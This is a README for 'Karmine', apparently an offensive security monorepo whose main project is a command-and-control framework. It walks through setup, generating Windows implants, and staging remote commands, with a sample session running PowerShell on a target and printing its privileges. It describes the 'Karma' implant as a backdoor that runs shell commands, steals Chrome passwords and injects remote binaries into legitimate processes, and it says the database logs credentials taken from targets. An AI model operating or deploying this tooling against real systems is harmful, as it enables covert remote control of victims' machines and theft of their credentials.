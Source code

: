 # Karmine

Karmine is a monorepo which will contain several security-related projects in a mix of languages, mainly:
- Go
- C / C++
- Python
- Rust

## Setup 

1. Run `install.sh` in the project root. This will set up configuration files, the `bin`, and an x509 certificate-key pair. You can replace these with your own by replacing the ones in `~/.kdots/` with files of the same name.

2. Install and start mysql-server. For example, the command to do so on ubuntu is:

```
sudo apt install mysql-server
sudo service mysql start
```

3. Run the sql initialisation script.

```
mysql -u root -h localhost < init.sql
```

## Usage 

### Example

```
$  new karma --os windows --interval 3
'karma' saved to /home/pygrum/karmine/bin


$  profiles view

uuid                                 | name         | strain
------------------------------------------------------------
181d70e4-cbc6-4bfd-9e96-7ccb31dbbc27 | 3a89aee34882 | karma

$  stage cmd --for 3a89aee34882 exec "powershell -c whoami /priv"
$  % 3a89aee34882 %  ---
INFO[1139] exec powershell -c whoami /priv               type=cmd
INFO[1139] 
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

The Karmine database logs all staged commands, active strains, and credentials from targets. In-built commands can be used to view this information.

### Commands

As of March 15 2023, there are 3 commands:
- `new`
- `profiles`
- `stage`

To get usage info about these commands, type `<command> --help`

## Karma

Karma is a bot with backdoor functionality, capable of executing shell commands, stealing chrome passwords, and injecting remote binaries into legitimate system processes. It communicates over a secure mTLS connection, and supports threaded processing and execution of commands. 
